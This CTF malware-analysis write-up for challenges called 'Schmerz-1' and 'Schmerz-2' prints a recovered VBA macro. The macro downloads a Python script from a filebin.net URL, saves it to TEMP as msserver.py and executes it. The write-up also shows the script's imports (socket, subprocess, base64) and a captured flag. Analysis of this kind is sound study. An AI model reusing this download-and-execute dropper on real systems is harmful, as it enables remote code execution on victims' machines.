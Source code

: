 ```Schmerz-1```
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1
            stream.Write .responseBody
            stream.SaveToFile destinationPath, 2
            stream.Close
        End If
    End With
    command = pythonPath & " " & Chr(34) & destinationPath & Chr(34)
    Set shell = CreateObject("WScript.Shell")
    shell.Exec command
End Sub
```

The key value of the registry was the flag 

therefore - ```flag{fA3bDt}```

```Schmerz - 2```

Macros had the script  : 

```Sub DownloadAndOpenFile()
    Dim url As String
    Dim destinationPath As String
    Dim shell As Object
    Dim pythonPath As String
    Dim command As String
    pythonPath = "python.exe"
    url = "https://filebin.net/g5lap7a613mo3x3o/client.py"
    destinationPath = Environ("TEMP") & "\msserver.py"
    With CreateObject("MSXML2.ServerXMLHTTP")
        .Open "GET", url, False
        .send
        If .Status = 200 Then
            Dim stream As Object
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1
            stream.Write .responseBody
            stream.SaveToFile destinationPath, 2
            stream.Close
        End If
    End With
    command = pythonPath & " " & Chr(34) & destinationPath & Chr(34)
    Set shell = CreateObject("WScript.Shell")
    shell.Exec command
```

Used Chatgpt to get what command is actually after variable substitution

``` command = "python.exe ""C:\Users\YourUsername\AppData\Local\Temp\msserver.py"""```

the msserver.py was : 

```python
import json
import os
import shutil
import socket
import subprocess
import sys
import time
from sys import platform
import requests
import base64
```